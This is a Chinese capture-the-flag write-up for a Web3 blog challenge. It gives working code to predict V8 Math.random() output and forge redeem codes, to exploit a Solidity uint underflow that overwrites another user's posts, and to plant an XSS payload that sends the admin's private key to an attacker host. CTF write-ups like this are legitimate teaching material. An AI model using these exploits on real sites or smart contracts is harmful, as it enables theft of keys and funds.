

# 【 ? 】Web3 & Wordpress

本题在 CTF Web 题中也算比较难的类型，并没有让大家做出来的打算。算是让大家见识见识吧。

代码很多，很复杂，首先明确一下要做什么。

要获取 flag。flag 在哪？/api/flag 路由里边有。


然后需要 info.accounts[0].addr 及其私钥用来签名。这个又在哪里？/api/bot 里面有。


这里是个 XSS，admin 把私钥填进去，然后看了看 Posts。先别管具体咋 X 的，找找内容从哪里来。


可以发现 admin 查看了自己的 Posts，然后上边那个 dangerouslySetInnerHTML 直接就把我们的内容合并进去，一发 XSS 了。

所以我们的目标是，修改 admin 的 Posts 为恶意内容，触发 XSS。只有这条路，因为其他啥参数都不可控。

那么现在可以做什么呢？有个区块链，web3，想干点啥都要金币，但是初始账户里没有余额。所以首先，得往自己的账户里充钱。看 /api/recharge 可以发现充钱是要用 redeem code 充的。它生成的逻辑是这样：


经典 Math.random() 了，在 Node.JS 里边是可以预测的，当然，理论上也可以向前”预测”。再看看这玩意其他的输出点。


又发现，爆 500 的时候顺便把这玩意输出来了，给定了足够的状态以后，就可以还原 redeem code。

https://github.com/PwnFunction/v8-randomness-predictor

然而再仔细看看，会发现有点不对头。这里输出的是 36 进制的 String，一次 `Math.random().toString(36)` 小数点后有 11 位，recharge 的 16 长度由两个拼接而来，但报错里能获取的只有 10 位，也就是最后一位没了。

刚开始想爆破，然后发现不太现实。其实 V8 随机数生成的逻辑很简单，就是位移移异或或，所以理论上失去了最后一位（大约 4~8 bit  的信息），是能通过更多的状态补充回来的。也就是说要做的其实很简单，把代码改成向前回溯状态（”预测”）的，然后加入 10 个左右生成的数（原本是 5 个），在计算时把低 8 位 mask 掉（表示未知），照样能解出来。

```python
#!/usr/bin/python3
import z3
import struct
 
def base_fromf(x):
    ret = 0.0
    base = 1/36
    for i in range(len(x)):
        ret += base * int(x[i], 36)
        base /= 36
    return ret
 
def base_tof(x):
    ret = ''
    while x > 1e-4:
        ret += '0123456789abcdefghijklmnopqrstuvwxyz'[int(x*36)]
        x = x*36 - int(x*36)
    return ret
 
def check(sequence):
    sequence = sequence[::-1]
 
    solver = z3.Solver()
 
    se_state0, se_state1 = z3.BitVecs("se_state0 se_state1", 64)
 
    for i in range(len(sequence)):
        se_s1 = se_state0
        se_s0 = se_state1
        se_state0 = se_s0
        se_s1 ^= se_s1 << 23
        se_s1 ^= z3.LShR(se_s1, 17)  # Logical shift instead of Arthmetric shift
        se_s1 ^= se_s0
        se_s1 ^= z3.LShR(se_s0, 26)
        se_state1 = se_s1
 
        if isinstance(sequence[i], str): 
            solver.add(z3.BitVec(sequence[i], 64) == z3.LShR(se_state0, 12))
            continue
 
        float_64 = struct.pack("d", sequence[i] + 1)
        u_long_long_64 = struct.unpack("<Q", float_64)[0]
 
        # Get the lower 52 bits (mantissa)
        mantissa = u_long_long_64 & ((1 << 52) - 1)
 
        mask = ((1 << 64) - 1) & ~((1 << 8) - 1)
        # Compare Mantissas ( except lower 8 digits )
        solver.add((int(mantissa) & mask) == (z3.LShR(se_state0, 12) & mask))
 
    if solver.check() == z3.sat:
        return solver.model()
    return False
 
def answer(model):
    states = {}
    for state in model.decls():
        states[state.__str__()] = model[state]
 
    print(states)
 
    state0 = states["se_state0"].as_long()
 
    for state in model.decls():
        if (mat:=state.__str__()).startswith('mat'):
            
            u_long_long_64 = (states[mat].as_long() >> 0) | 0x3FF0000000000000
            float_64 = struct.pack("<Q", u_long_long_64)
            prev_sequence = struct.unpack("d", float_64)[0]
            prev_sequence -= 1
 
            print(mat, prev_sequence, base_tof(prev_sequence))
 
org = ['mat0','mat1','mat2','mat3','mat4','mat5']
 
def getapd(n):
    import requests
    ret = []
    for i in range(n):
        res = requests.post('http://ctf2024-entry.r3kapig.com:32090/api/backend', data='{"js', headers={'Content-Type': 'application/json'})
        print(i, num:=res.json()['data']['id'])
        ret.append(num)
    ret = ret[1:] # first for check
    print('')
    return ret
 
# Array.from(Array(100), ()=>(Math.random().toString(36).substring(2).slice(0,10)))
apd = getapd(10)
 
apd = list(map(base_fromf, apd))
print(apd)
model = check(org + apd)
if model is False:
    print('unsolvable')
else:
    answer(model)
```

Python 的 36 进制转 10 进制小数还有点精度丢失，行为不一致，很难崩，结果拷到 Node.JS 上面再转。

有了金币以后就可以进行智能合约的链上操作，这上边能 register，publish，edit，但问题是，都只能操作自己的，也就是 sender.address，没法修改别人，或者说 admin 的 Posts 。


再仔细看看这里，这个 undo() 功能，首先把 length 减了 1，然后再判断它是否 >=0。看起来好像没问题？因为  require() 不满足，交易就不会成功。再说了，就算是负数又能怎么样。然后可以发现，length 在 solidity 里是个  uint256 类型的，也就是说 0-1 会下溢出至 2^256-1 最大值，导致该数组可以对任意的 offset  进行访问，理论上形成任意读写。



这里便需要一些 solidity memory layout 的知识。

https://docs.soliditylang.org/en/v0.8.17/internals/layout_in_storage.html

对着它的合约，version 占据 slot0，我们在的 postMapping 对应 slot4，也就是说，postMapping[address] 对应的 slot 为 `keccak256(bytes32(account) + bytes32(4))` 。由于 Post[] 又是 dynamic array，需要对之前得到的地址再次 keccak256()，得到该数组的起始 slot。数组内各元素存放地址为 `keccak256(起始slot + index)`。


有了该溢出之后，由于 solidity 对每个合约共用一个 2^256 slot 大小的地址空间，也就是说，由我们的 Post[]  是可以访问到对应 admin 的 Post[] 数组的，只是需要注意到一些简单的计算。这里还要特别注意，由于 struct Post 占 3 个 slot，所以计算 offset 时需要除以 3，并保证能够整除，否则需要更换地址继续。

```python
mypos = keccak256(keccak256(bytes32(account) + bytes32(4)))
admin = '0x04478cD6BD7DE5f721a88d25A2f44edba2627276'[2:].lower() # <--- admin public address
apos = keccak256(keccak256(bytes32(admin) + bytes32(4)))
 
offset = int(apos, 16) - int(mypos, 16)
if offset < 0:
    offset += 2**256
assert(offset % 3 == 0)
offset //= 3
```

搜出来路径可能不唯一，但有肯定是有的。然后用经典 img.src 送到我们服务器上即可。

至此，已经完成了攻击链的所有步骤。

V8 随机数向前预测，计算充值码 ==> 在 Solidity 合约上 slot 任意读写 ==> 修改 admin 的 Post 并 XSS ==> prvkey 签名得到 flag

```python
import requests, web3, json, binascii
from Crypto.Hash import keccak
from web3 import Web3
from eth_account.messages import encode_defunct
 
URL = 'http://ctf2024-entry.r3kapig.com:32090'
 
prvkey = '0x000000000000000000000000000000000000000000000000000000000000000b'
 
res = requests.get(URL + '/api/backend').json()['data']['blog']
address = res['address']
abi = res['abi']
 
web3 = Web3(Web3.HTTPProvider(URL + '/rpc'))
account = web3.eth.account.from_key(prvkey).address
 
# -----------
def bytes32(i):
    return binascii.unhexlify('%064x' % i).hex()
def keccak256(x):
    k = keccak.new(digest_bits=256)
    k.update(bytes.fromhex(x))
    return k.hexdigest()
 
mypos = keccak256(keccak256(bytes32(int(account, 16)) + bytes32(4)))
admin = '0x04478cD6BD7DE5f721a88d25A2f44edba2627276' # <--- MODIFY TO ADMIN ADDRESS HERE
apos = keccak256(keccak256(bytes32(int(admin, 16)) + bytes32(4)))
 
print('from', mypos, '=>', apos)
offset = int(apos, 16) - int(mypos, 16)
if offset < 0:
    offset += 2**256
print('offset', bytes32(offset))
assert(offset % 3 == 0)
# -----------
 
code = 'MWP-nn4lpyib8s418b0t' # <--- MODIFY TO REDEEM CODE HERE
message = encode_defunct(text = account + '|' + code)
data = {'code': code, 'address': account,
    'signature': '0x'+bytes(web3.eth.account.sign_message(message, private_key=prvkey).signature).hex()}
print(data)
res = requests.post(URL + '/api/recharge', json=data)
print(res.text)
 
print('connected', web3.is_connected())
print('blockchain', web3.eth.block_number)
print('my balance', web3.eth.get_balance(account))
 
from web3.middleware import geth_poa_middleware
web3.middleware_onion.inject(geth_poa_middleware, layer=0)
 
contract = web3.eth.contract(address=address, abi=abi)
print('username_count', contract.functions.getUserNameCount().call())
 
def call(total_fee, func):
    transaction = {
        'from': account,
        'value': total_fee,
        'gas': 3000000,  # adjust the gas limit as needed
        'gasPrice': web3.to_wei('5', 'gwei'),  # adjust the gas price as needed
        'nonce': web3.eth.get_transaction_count(account)
    }
 
    txn = func.build_transaction(transaction)
    signed = web3.eth.account.sign_transaction(txn, prvkey)
    txn_hash = web3.eth.send_raw_transaction(signed.rawTransaction)
 
    print(txn_hash.hex())
 
    web3.eth.wait_for_transaction_receipt(txn_hash.hex())
    print(web3.eth.get_transaction_receipt(txn_hash.hex()))
 
username = 'hello10'
fee_per_byte = 5 * 10**12  # 5 szabo in wei
total_fee = fee_per_byte * len(username)
print('registering')
call(total_fee, contract.functions.register(username=username))
 
print('username_count', contract.functions.getUserNameCount().call())
 
print('undo') # 1 finney
call(10 ** 15, contract.functions.undo())
 
#print('read', web3.eth.get_storage_at(address, keccak256(apos)))
print('article', contract.functions.read(user=admin, id=0).call())
 
title = 'mytitle'
content = '''{var v;Object.keys(o).some(function(k){if(k===t){v=o[k];return true;}if(o[k]&&typeof o[k]==='object'&&d>0){v=f(o[k],t,d-1);return v!==undefined;}});return v;};this.src='http://IP:POST/?'+f(document.getElementById('root'),'privateKey',10);" />'''
fee_per_byte = 50 * 10**12
total_fee = fee_per_byte * len(title + content)
print('editing')
call(total_fee, contract.functions.edit(id=offset//3, title=title, content=content))
 
print('article', contract.functions.read(user=admin, id=0).call())
 
res = requests.post(URL + '/api/bot')
print(res.text)
 
apv = input('the admin private key: ').strip()
message = encode_defunct(text = admin.lower() + ': vivo flag')
data = {'message': message.body.decode(),
    'signature': '0x'+bytes(web3.eth.account.sign_message(message, private_key=apv).signature).hex()}
print(data)
res = requests.post(URL + '/api/flag', json=data)
print(res.text)
```


